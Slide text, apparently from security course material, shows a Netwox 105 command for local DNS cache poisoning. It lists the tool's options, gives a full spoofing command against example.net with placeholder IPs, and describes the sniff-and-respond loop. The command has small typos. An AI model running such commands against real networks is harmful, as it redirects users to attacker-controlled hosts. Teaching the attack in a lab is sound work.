

# Netwox Tool: Command line to attack
Netwox 105: Perform the local DNS cache poisoning attack.

--hostname: 	The domain you want to attack
--hostnameip: 	The malicious IP you want to assign to that domain
--authns: 		The authority of the response (who gives the answer)
--ttl: 		Time to live
--filter: 		The pcap expression to focus on certain packet
$ sudo netwox 105 --hostname "www.example.net"-hostnameip “10.20.30.40”
 --authns "ns.example.net" --authnsip “10.20.30.50”
--ttl 19000 --filter "src host <localDNS_server IP>" --spoofip "raw"

Once you run the command, the netwox 105 tool will:
Listen to the local network and sniff the DNS request that you are interested.
Build the DNS response according to your configuration and send it back.
Keep doing steps 1 and 2.